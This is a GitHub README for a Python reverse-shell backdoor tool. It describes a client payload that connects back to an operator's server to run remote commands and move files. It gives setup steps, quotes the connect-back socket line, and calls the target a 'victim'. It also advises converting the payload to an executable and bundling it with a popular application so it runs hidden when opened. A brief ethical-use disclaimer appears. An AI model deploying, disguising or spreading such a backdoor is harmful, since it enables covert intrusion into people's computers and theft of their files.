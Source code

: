 # Local Backdoor Access

The **Local Backdoor Access** project is a simple yet powerful toolset for remote command execution and file transfer between a client and a server using Python.
This tool enables a backdoor connection between a client and a server, allowing remote command execution, file uploads, and downloads over a socket connection.

> **Note:** This tool should only be used in ethical penetration testing scenarios or with explicit permission. Unauthorized use is illegal.

## Features

- **Remote Shell Access:** Control a remote system via a command shell.
- **File Upload and Download:** Transfer files between the client and the server.
- **Clear Command:** Clear the terminal screen on the client or server.
- **Custom Directory Navigation:** Change directories on the target machine.

## How It Works

- **Client:** The client (backdoor.py) attempts to establish a connection to the server (server.py) every 20 seconds. Once connected, it can execute commands, upload/download files, and return results to the server.
  
- **Server:** The server (server.py) listens for incoming client connections. Once connected, it allows you to send commands, upload files to the client, and download files from the client.


>**Note:** backdoor.py is a payload that needs to be executed by the target(victim). You can use various other techniques to make that possible.
        (like converting backdoor.py to .exe and merging it with other mostly used application. So that when target opens the application then the backdoor will execute in background)


### Usage

#### Setting Up the Server

1. Clone the repository:
   
   git clone https://github.com/Vaibhav256/Cybersecurity_Tools/tree/main/local-backdoor-access

2. Change to directory:

   cd local-backdoor-access

3. Open server.py file:

    nano server.py

4. Edit the ip address and port number according to your network: [Enter the Server's ip address and port]  
    *(not a command)*  
    make changes in the line no. 57 --> default: sock.bind(('0.0.0.0', 5555))

5. Run the Server:

    python server.py

#### Setting Up the Backdoor (Target)

1. Change to directory:

   cd local-backdoor-access

2. Open backdoor.py file:

    nano backdoor.py

3. Edit the ip address and port number according to your network: [Enter the Server's ip address and port]  
    *(not a command)*  
    make changes in the line no. 24 --> default: sock1.connect(('0.0.0.0', 5555))

4. Run the Backdoor or make it execute.  
    *if your are checking a demo on your own another device then you may run it like:*  
        python backdoor.py  
    *you must have backdoor.py file and python installed on that device*  
    *OR you can convert py to executable then python is not necessary to be installed on that device.*

### Commands to use (After connection)

1. quit: Terminates the shell session.
2. upload <file>: Upload a file from the client to the server.
3. download <file>: Download a file from the server to the client.
4. cd <directory>: Change directory on the client.
5. clear: Clear the terminal screen

